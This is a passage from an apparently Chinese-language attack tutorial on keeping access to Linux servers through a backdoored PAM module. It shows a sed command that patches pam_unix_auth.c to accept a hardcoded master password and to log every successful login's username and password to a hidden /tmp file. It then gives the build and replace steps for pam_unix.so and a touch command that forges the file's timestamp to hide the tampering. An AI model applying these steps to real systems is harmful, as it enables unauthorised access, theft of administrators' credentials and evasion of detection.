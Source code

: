 #### 2.Linux Pam后门

 **PAM**
是一种认证模块，PAM可以作为Linux登录验证和各类基础服务的认证，简单来说就是一种用于Linux系统上的用户身份验证的机制。进行认证时首先确定是什么服务，然后加载相应的PAM的配置文件(位于
**/etc/pam.d** )，最后调用认证文件(位于 **/lib/security** )进行安全认证

 **简易利用** 的PAM后门也是通过修改 **PAM** 源码中认证的逻辑来达到权限维持

源码： `http://www.linux-pam.org/library/`

查询版本： `rpm-qa|grep pam`

  

![]()

    
    
    tar -xzvf Linux-PAM-1.1.1.tar.gz  
    cd Linux-PAM-1.1.1

 **pam unixauth.c** 修改认证逻辑，改成使用特定密码的后门，当然也可以作为一个记录敏感密码的功能，将记录的密码写入文件记录。

    
    
    sed -i -e 's/retval = _unix_verify_password(pamh, name, p, ctrl);/retval = _unix_verify_password(pamh, name, p, ctrl);\n\tif (strcmp(p,"'snsn123123'")==0 ){retval = PAM_SUCCESS;}if(retval == PAM_SUCCESS){\n\tFILE * fp;\n\tfp = fopen("/tmp/.sshd", "a");\n\tfprintf(fp, "%s : %s\\n", name, p);\n\tfclose(fp);\n\t}/g' modules/pam_unix/pam_unix_auth.c

  

![]()

    
    
    ./configure && make

![]()

    
    
    cp -rf /usr/lib64/security/pam_unix.so /usr/lib64/security/pam_unix.so.bak  
    cp -rf pam_unix.so /usr/lib64/security/pam_unix.so

![]()

    
    
    oldtime=`stat -c '%z' /lib64/security/pam_ftp.so`  
    touch -d "$oldtime" /usr/lib64/security/pam_unix.so

![]()  

当管理员登录之后就会有新的密码写入

![]()

通过万能密码也可以成功登录服务器

![]()
